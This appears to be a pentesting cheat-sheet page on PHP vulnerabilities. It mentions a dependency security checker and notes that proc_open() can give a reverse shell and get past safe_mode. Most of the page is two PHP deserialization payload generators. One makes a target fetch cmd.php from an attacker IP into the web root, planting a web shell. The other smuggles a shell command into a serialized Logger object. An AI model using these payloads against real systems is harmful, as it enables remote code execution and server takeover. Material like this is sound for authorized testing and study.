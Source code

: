 ```yaml
---
description: A list of PHP tricks & vulnerabilities and their application.
---
```


# PHP Vulnerabilities

## Local PHP Security Checker

The Local PHP Security Checker is a command line tool that checks if your PHP application depends on PHP packages with known security vulnerabilities. It uses the [Security Advisories Database](https://github.com/FriendsOfPHP/security-advisories) behind the scenes.

> **Local PHP Security Checker:** https://github.com/fabpot/local-php-security-checker

## proc\_open() function

You can get a reverse shell from the `proc_open()` php function using [this script](../../03\_Initial\_Access/files/proc\_open\_RS.php).

When _PHP safe\_mode_ is enabled, you can bypass it using the `proc_open()` function.

> Reference: [disable\_functions bypass - PHP safe\_mode bypass via proc\_open() and custom environment Exploit](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable\_functions-open\_basedir-bypass/disable\_functions-bypass-php-safe\_mode-bypass-via-proc\_open-and-custom-environment-exploit)

## Deserialization

Use of the `save()` function on a class

```php
<?php
class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$payload = new AvatarInterface();
$payload->tmp = 'http://10.10.16.9:8000/cmd.php';
$payload->imgPath = '/var/www/html/cmd.php';
$payload = base64_encode(serialize($payload));
print($payload);
```

## **construct() & destruct() function code execution**

```php
<?php
namespace App\Service;
class Logger
{
    private $log_me;
    function __construct($log_me)
    {
        $this->log_me = $log_me;
    }
}
echo base64_encode(
    serialize(
        new Logger("echo 'hello from the other side' > /tmp/poc_unserialize")
    )
);
```
